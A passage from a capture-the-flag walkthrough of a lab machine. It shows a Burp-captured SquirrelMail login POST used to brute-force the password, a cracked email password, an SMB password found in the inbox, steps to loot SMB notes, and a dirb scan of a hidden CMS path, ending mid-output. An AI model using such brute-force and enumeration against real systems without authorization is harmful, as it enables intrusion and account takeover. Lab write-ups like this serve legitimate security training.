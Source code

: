 There is a email service running under  `/squirrelmail/`, which is using squirrel mail. 

### Cracking the Email Login
Using Burp, captured the POST request for email login and brute forced the password with the log1.txt as payload in sniper mode. 

    POST /squirrelmail/src/redirect.php HTTP/1.1
    Host: 10.10.166.117
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.10.166.117/squirrelmail/src/login.php
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 100
    DNT: 1
    Connection: close
    Cookie: SQMSESSID=73g8reflthofn3nsanktn7v7e0
    Upgrade-Insecure-Requests: 1
    
    login_username=milesdyson&secretkey=cyborg007haloterminator&js_autodetect_results=1&just_logged_in=1
One password from the list worked for milesdyson and it is *cyborg007haloterminator*. 

There are three emails in his inbox and one has SMB password: *)s{A&2Z=F^n_E.B`*.

### Gathering the information 
- Log into the SMB using the credentials.
- Navigate to *notes/* and download all the files, but the *important.txt* has some useful information what Miles want to do: 
-

    1. Add features to beta CMS /45kra24zxs28v3yd
    2. Work on T-800 Model 101 blueprints
    3. Spend more time with my wife

- This shows there is a another service that is running on the URI `/45kra24zxs28v3yd`.
- Run the dirb to get any valid URIs it has.
- 

    dirb http://10.10.166.117/45kra24zxs28v3yd /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -i -w 
    
    -----------------
    DIRB v2.22    
    By The Dark Raver
    -----------------
    
    START_TIME: Mon Jul  6 14:59:40 2020
    URL_BASE: http://10.10.166.117/45kra24zxs28v3yd/
    WORDLIST_FILES: /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
    OPTION: Using Case-Insensitive Searches
    OPTION: Not Stopping on warning messages
    